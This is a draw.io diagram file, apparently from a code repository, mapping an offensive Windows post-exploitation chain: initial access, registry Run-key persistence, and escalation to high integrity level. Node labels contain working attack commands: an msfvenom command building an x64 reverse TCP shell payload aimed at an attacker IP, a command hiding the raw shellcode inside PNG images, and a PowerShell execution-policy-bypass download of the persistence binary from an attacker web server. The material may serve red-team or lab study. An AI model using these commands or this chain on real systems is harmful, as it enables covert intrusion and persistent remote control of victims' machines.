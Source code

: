 <mxfile version="20.8.1" type="github">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="2774" dy="457" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="c0Sctn81WB5nrNk0CtNy-44" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="Escalate Privileges&lt;br&gt;to High IL" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="340" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="End" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="980" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-17" target="P6aCfQ930mBBJoiv-hOj-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="20" y="40" width="150" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory&#xa;(reverse_9001.exe / &#xa;reverse_9002.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-19" vertex="1">
          <mxGeometry y="30" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="reverse_9001.cpp&#xa;reverse_9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory&#xa;(9001.png / 9002.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-23" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.raw&#xa;9002.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Port (9001 / 9002)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="P6aCfQ930mBBJoiv-hOj-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="460" width="690" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="430" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="560" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-2" value="reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-9" target="G-sO2mh2Iyi2BEA4O4LV-49" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-9" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="230" width="880" height="160" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Embed MSFVenmon Payload Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-1" value="" style="group" vertex="1" connectable="0" parent="P6aCfQ930mBBJoiv-hOj-9">
          <mxGeometry x="70" y="30" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-12" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="kM2FHF2urjBJhsgAb-iy-1" vertex="1">
          <mxGeometry width="140" height="90" as="geometry">
            <mxRectangle width="120" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-13" value="Pers_Medium.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-14" value="reverse_9001.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-0" value="reverse_9002.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="kM2FHF2urjBJhsgAb-iy-1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-24" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="596" width="910" height="322" as="geometry">
            <mxRectangle x="470" y="616" width="210" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-0" value="Execute Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="G-sO2mh2Iyi2BEA4O4LV-5" target="P7n5YuG6-lRFGP6FSJ7v-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-1" value="Execute reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="590" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-5" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="125" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-1" target="P6aCfQ930mBBJoiv-hOj-5" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="590" y="125" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-6" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="202" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-8" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="kM2FHF2urjBJhsgAb-iy-3" target="P6aCfQ930mBBJoiv-hOj-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-26" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="370" y="125" width="120" height="40" as="geometry" />
        </mxCell>
